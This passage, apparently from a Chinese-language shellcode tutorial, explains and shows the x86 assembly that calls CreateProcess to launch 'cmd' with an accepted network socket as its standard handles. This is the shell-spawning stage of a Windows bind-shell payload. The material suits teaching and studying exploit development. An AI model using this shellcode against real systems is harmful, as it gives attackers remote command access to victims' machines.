 最后调用`CreateProcess`，它的`lpStartupInfo`结构体最为重要，它把前面收到的socket作为std句柄：

```cpp
BOOL WINAPI CreateProcess(
  _In_opt_    LPCTSTR               lpApplicationName,
  _Inout_opt_ LPTSTR                lpCommandLine,
  _In_opt_    LPSECURITY_ATTRIBUTES lpProcessAttributes,
  _In_opt_    LPSECURITY_ATTRIBUTES lpThreadAttributes,
  _In_        BOOL                  bInheritHandles,
  _In_        DWORD                 dwCreationFlags,
  _In_opt_    LPVOID                lpEnvironment,
  _In_opt_    LPCTSTR               lpCurrentDirectory,
  _In_        LPSTARTUPINFO         lpStartupInfo,
  _Out_       LPPROCESS_INFORMATION lpProcessInformation
);

typedef struct _STARTUPINFO {
  DWORD  cb;
  LPTSTR lpReserved;
  LPTSTR lpDesktop;
  LPTSTR lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
} STARTUPINFO, *LPSTARTUPINFO;
```

`STARTUPINFO`大多数成员变量都可以是`NULL`，所以在全部为NULL的栈区上只需要为socket作为handle进行部分点缀即可：

```assembly
; initialise a STARTUPINFO structure at esp 
	inc byte ptr [esp + 0x2d] 	; set STARTF_USESTDHANDLES to true 
	sub edi, 0x6c 				; point edi at hStdInput in STARTUPINFO 
	stosd 					; use SOCKET descriptor returned by accept 
							; (still in eax) as the stdin handle 
	stosd 					; same for stdout 
	stosd					; same for stderr (optional) 
	
; create process 
	pop eax 			; set eax = 0 (STARTUPINFO now at esp + 4) 
	push esp			; use stack as PROCESSINFORMATION structure 
	; (STARTUPINFO now back to esp) 
	push esp 			; STARTUPINFO structure 
	push eax 		; lpCurrentDirectory = NULL 
	push eax 		; lpEnvironment = NULL 
	push eax 		; dwCreationFlags = NULL 
	push esp 			; bInheritHandles = true 
	push eax 		; lpThreadAttributes = NULL 
	push eax 		; lpProcessAttributes = NULL 
	push esi 			; lpCommandLine = "cmd" 
	push eax 		; lpApplicationName = NULL 
	call [esi - 0x1c] 	; CreateProcessA 
```
